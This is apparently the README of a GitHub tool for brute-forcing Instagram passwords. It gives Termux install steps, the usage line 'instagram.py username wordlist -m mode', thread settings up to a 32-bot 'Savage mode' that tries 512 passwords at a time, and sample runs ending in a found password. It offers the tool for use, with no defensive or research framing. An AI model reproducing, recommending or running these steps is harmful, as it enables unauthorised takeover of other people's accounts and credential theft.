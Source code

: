 
# How to install?
<b>Follow the instructions...</b><br>
<b>If you have Android - download <a href="https://play.google.com/store/apps/details?id=com.termux&hl=ru">Termux from Google Play</a> and open it and write the commands below:<br>
• <code>apt update</code><br>
• <code>apt upgrade -y</code><br>
• <code>apt install python -y</code><br>
• <code>apt install git -y</code><br>
• <code>git clone https://github.com/Mr-X-01/Instagram</code><br>
• <code>cd Instagram</code><br>
• <code>pip3 install -r requirements.txt</code><br>

# How to start?
• <code>python3 instagram.py <username> <wordlist> -m <mode></code><br>

### Help

```
python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: Mr.x
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: Mr.x
[-] Password: mr090
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Mr.x
[+] Password: mr090
```
